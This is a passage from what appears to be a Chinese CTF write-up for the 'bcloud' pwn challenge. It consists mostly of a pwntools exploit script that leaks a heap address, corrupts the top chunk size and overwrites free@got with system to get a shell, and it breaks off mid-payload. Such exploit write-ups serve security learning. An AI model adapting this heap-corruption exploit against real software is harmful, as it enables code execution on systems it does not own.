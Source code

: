 #### RCE

然后edit(1)，劫持free@got为system，最后delte(2)即可getshell。

### EXP

```python
from pwn import *
# from LibcSearcher import *

# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./bcloud")
p = process("./bcloud")

def allocate(size, content):
	p.recvuntil(">>\n")
	p.sendline("1")
	p.recvuntil("note content:\n")
	p.sendline(str(size))
	p.recvuntil("the content:\n")
	p.send(content)
  
def allocate__(size):
	p.recvuntil(">>\n")
	p.sendline("1")
	p.recvuntil("note content:\n")
	p.sendline(str(size))
  
def update(index, content):
	p.recvuntil(">>\n")
	p.sendline("3")
	p.recvuntil("id:\n")
	p.sendline(str(index))
	p.recvuntil("content:\n")
	p.send(content)

def delete(index):
	p.recvuntil(">>\n")
	p.sendline("4")
	p.recvuntil("id:\n")
	p.sendline(str(index))

info = 0x8048779
notelist = 0x804b120

# leak heap
p.recvuntil("name:\n")
p.send("a" * 0x40)
heap_addr = u32(p.recvuntil("!")[-5:-1]) - 8

# change top chunk
p.recvuntil("Org:\n")
p.send("b" * 0x40)
p.recvuntil("Host:\n")
p.send(p32(0xffffffff) + "\n")

# malloc to notelist
offset = (notelist - 0x8) - (heap_addr + 0xd8) - 0x8
allocate__(offset) # 0

payload = p32(elf.got['puts']) #0
payload += p32(elf.got['free']) # 1
```